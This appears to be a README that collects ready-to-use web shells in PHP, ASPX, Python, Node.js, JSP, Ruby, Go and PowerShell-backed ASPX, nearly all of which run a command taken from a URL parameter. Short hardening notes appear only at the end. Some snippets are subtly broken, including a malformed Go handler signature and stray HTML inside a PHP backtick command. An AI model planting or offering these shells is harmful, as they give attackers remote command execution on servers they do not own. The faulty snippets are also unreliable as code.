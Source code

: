 
# WebShells Repository

This document collects a variety of one‑liner web shells across multiple languages and platforms, from classic PHP to modern frameworks. 
 ## Use responsibly for authorized testing only.
## Lol.

---

## PHP Webshells

**Execute one command**

```php
<?php system("whoami"); ?>
```

**Take input from URL parameter**

```php
<?php system($_GET['cmd']); ?>
```

**Using `passthru`**

```php
<?php passthru($_GET['cmd']); ?>
```

**Using `shell_exec` (echo required)**

```php
<?php echo shell_exec("whoami"); ?>
```

**Using `exec()` to capture all lines**

```php
<?php exec("ls -la", $out); print_r($out); ?>
```

**Using `preg_replace()` eval trick**

```php
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>
```

**Using backticks**

```php
<?php echo `<span style="color:blue;">whoami</span>`; ?>
```

> **GUI Shell**: [Sweetuu](https://github.com/cspshivam/sweetuu)

---

## ASPX Webshell

**Execute Windows command:**

```asp
<%
  Set sh = CreateObject("WScript.Shell")
  Set ex = sh.Exec("cmd /c whoami")
  Response.Write(ex.StdOut.ReadAll())
%>
```

> Can be bound via `web.config` to intercept requests.

---

## Python Webshells (WSGI)

**Minimal WSGI shell** (`shell.py`)

```python
def application(environ, start_response):
    cmd = environ.get('QUERY_STRING', '')
    output = __import__('subprocess').check_output(cmd.split())
    start_response('200 OK', [('Content-Type','text/plain')])
    return [output]
```

**Flask single endpoint**

```python
from flask import Flask, request
import subprocess
app = Flask(__name__)

@app.route('/shell')
def shell():
    cmd = request.args.get('cmd', '')
    return subprocess.getoutput(cmd)

# run with: python shell.py
```

---

## Node.js Webshells

**Express one-liner**

```js
require('express')().get('/shell',(req,res)=>res.send(require('child_process').execSync(req.query.cmd)) ).listen(3000)
```

**Standalone HTTP**

```js
const http = require('http');
const { exec } = require('child_process');
http.createServer((req,res)=>{
  let cmd = new URL(req.url, 'http://x').searchParams.get('cmd');
  exec(cmd, (e,o) => res.end(o));
}).listen(8080);
```

---

## Java/JSP Webshells

**JSP eval shell**

```jsp
<%@ page import="java.io.*" %>
<%
  String cmd = request.getParameter("cmd");
  Process p = Runtime.getRuntime().exec(cmd);
  InputStream in = p.getInputStream();
  int a;
  while((a=in.read())!=-1) out.print((char)a);
%>
```

**EL injection** (if enabled)

```jsp
${"".getClass().forName("java.lang.Runtime").getRuntime().exec(param.cmd)}
```

---

## Ruby Webshell (Rack)

**Minimal Rack shell**

```ruby
# config.ru
run lambda {|env|
  cmd = Rack::Request.new(env).params['cmd']
  out = `#{cmd}`
  [200, {'Content-Type'=>'text/plain'}, [out]]
}
```

---

## Golang Webshell

**Single-file HTTP shell**

```go
package main
import(
  "net/http"; "os/exec"
)
func main(){
  http.HandleFunc("/", func(w,http.ResponseWriter,r){
    cmd := r.URL.Query().Get("cmd")
    out,_:= exec.Command("sh","-c",cmd).Output()
    w.Write(out)
  })
  http.ListenAndServe(":8080",nil)
}
```

---

## PowerShell Webshell (IIS)

**ASPX with PowerShell**

```asp
<%@ Page Language="C#" %>
<%
  var cmd = Request.QueryString["cmd"];
  var psi = new System.Diagnostics.ProcessStartInfo("powershell.exe", cmd);
  psi.RedirectStandardOutput = true;
  psi.UseShellExecute = false;
  var p = System.Diagnostics.Process.Start(psi);
  Response.Write(p.StandardOutput.ReadToEnd());
%>
```

---

## Notes & Best Practices

* **Sanitize inputs**: these examples are intentionally insecure. Always validate and sanitize user-supplied commands in real applications.
* **Least privilege**: run web servers under unprivileged accounts.
* **Use proper access controls**: disallow direct execution functions like `system` or `exec` where possible.

---


